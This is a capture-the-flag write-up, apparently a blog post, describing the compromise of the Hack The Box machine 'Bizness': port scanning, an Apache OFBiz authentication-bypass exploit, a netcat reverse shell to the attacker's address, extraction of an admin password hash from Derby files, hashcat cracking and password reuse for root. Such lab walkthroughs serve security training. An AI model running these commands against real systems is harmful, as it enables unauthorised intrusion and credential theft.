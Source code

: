 ```yaml
---
title: Hack the box - Bizness pwned!
date: 2024-03-10 00:00:01 +0000
categories: [hack the box, machine]
tags: [hack the box, bizness, ofbiz, derby]
img_path: /assets/img/posts/
---
```


## Machine info

![Bizness info](htb-bizness-info.png)
*Bizness info*

## Annotations

>In this article we are going to assume the following ip addresses:
>
>Local machine (attacker, local host): 10.10.16.79
>
>Target machine (victim, Bizness): 10.10.11.252
{: .prompt-info}

## Enumeration

Let's go look for the open ports in the machine using `nmap`:

`sudo nmap -Pn -n -sS -p- --open -T5 --min-rate=5000 -oN nmap_initial.txt 10.10.11.252`

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
443/tcp   open  https
38657/tcp open  unknown
44495/tcp open  unknown
```

## Footprinting

We fine tune the scan to see if we can get more information about the running services:

`sudo nmap -Pn -n -sVC -p22,80,443,38657,44495 -oN nmap_versions.txt 10.10.11.252`

```
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e21d5dc2e61eb8fa63b242ab71c05d3 (RSA)
|   256 3911423f0c250008d72f1b51e0439d85 (ECDSA)
|_  256 b06fa00a9edfb17a497886b23540ec95 (ED25519)
80/tcp    open   http       nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open   ssl/https  nginx/1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn: 
|_  http/1.1
38657/tcp closed unknown
44495/tcp open   tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that there is a web service running on port 80 pointing to `https://bizness.htb/`, so let's start there.
First of all, we add the machine address to our `/etc/hosts`:

`echo "https://bizness.htb/" | sudo tee -a /etc/hosts`

We browse to `https://bizness.htb/` to investigate the web:

![Bizness Incorporated web](htb-bizness-incorporated-web.png)
*Bizness incorporated web*

We can't do anything in the web, so we will fuzzing with `gobuster` to find hidden resources:

`gobuster dir -u https://bizness.htb -x php,txt,html -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -k -b 301,302,403,404 | tee gobuster.txt`

And, we find the following resources:

```
/index.html           (Status: 200) [Size: 27200]
/control              (Status: 200) [Size: 34633]
```

Under `/control` we have `/control/login`, so we browse to `https://bizness.htb/control/login` and we find the following form:

![OFBiz login](htb-bizness-ofbiz-login.png)
*Bizness login*

We can see the [OFBiz](https://github.com/apache/ofbiz-framework) logo. 
[OFBiz framework](https://github.com/apache/ofbiz-framework) is an Apache open source ERP (Enterprise resource planning) system.

If we look at the very bottom of the page, we can see the [OFBiz](https://github.com/apache/ofbiz-framework) version:

![Bizness version](htb-bizness-ofbiz-version.png)
*Bizness version*

It's running the 18.12 version.
The current version it's a 18.12.12, so could be a little outdated.
If we look for vulnerabilities for the [OFBiz](https://github.com/apache/ofbiz-framework) 18.12 version, we can see that there is the [CVE-2023-49070](https://nvd.nist.gov/vuln/detail/CVE-2023-49070) that allows an authentication bypass in versions <= 18.12.10:

[OFBIz CVE-2023-49070 in github](https://github.com/search?q=CVE-2023-49070&type=repositories)

Seems very convenient for us, so we download a PoC and we try our luck.

## Foothold

> I used [This PoC](https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-exploit) from [@kjakaba](https://www.vicarius.io/vsociety/sign/in?back=/users/jakaba) (thanks for the work! ;)).
>
> To be able to execute the [@kjakaba](https://www.vicarius.io/vsociety/sign/in?back=/users/jakaba)'s exploit, we need the [ysoserial-all.jar](https://github.com/frohoff/ysoserial) package.
{: .prompt-info}

We open a `netcat` listening on our side:
`nc -lvnp 12345`

And now, we run the exploit:

`python3 ofbiz_exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash 10.10.16.79 12345'`

> Seems that the PoCs that I tried don't work every time, and we may have to run it a few times, so be patient :P
{: .prompt-info}

And... We get shell!

### ofbiz

Fist of all, as always, it’s upgrading our tty:

```
script /dev/null -c bash
ctrl+z
stty raw -echo;fg
reset xterm
export TERM=xterm-256color
stty rows 56 columns 209
```

Now, we can get our user flag:

`cat /home/ofbiz/user.txt`

Seems that we can't do anything else with our new user.
As [OFBiz](https://github.com/apache/ofbiz-framework) by default uses the embedded database `derby` let's take a look at its files, in the `opt/ofbiz/runtime/data/derby/ofbiz/` path.

In `/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.data` we have the crentials of the `admin` user:

```
cat c54d0.dat| grep -i password
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
```

`$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I` is a SHA-1 hash with a salt. The salt is the character `d`, and the hashed value is `uP0_QaVBpDWFeo8-dRzDqRwXQ2I`, besides `uP0_QaVBpDWFeo8-dRzDqRwXQ2I` is encoded in base64.

To crack this password, we need to decode `uP0_QaVBpDWFeo8-dRzDqRwXQ2I` from base64url to hex:

```
echo "uP0_QaVBpDWFeo8-dRzDqRwXQ2I" | tr '_-' '/+' | base64 -d 2>/dev/null | xxd -ps
b8fd3f41a541a435857a8f3e751cc3a91c174362
```

Now, we add the salt and store the string in the `hash.txt` file:

`echo -n "b8fd3f41a541a435857a8f3e751cc3a91c174362:d" > hash.txt`

And, now, we use hashcat to crack it:

`hashcat -a 0 -m 120 hash.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt`

After a while, we will have the password for the `admin` user.
So, we will try if it is reused for the `root` user:

`su`

It works!
And we can get our system flag:

`cat /root/root.txt`

![Bizness pwned](htb-bizness-pwned.png)
*Bizness has been Pwned*

*Enjoy! ;)*
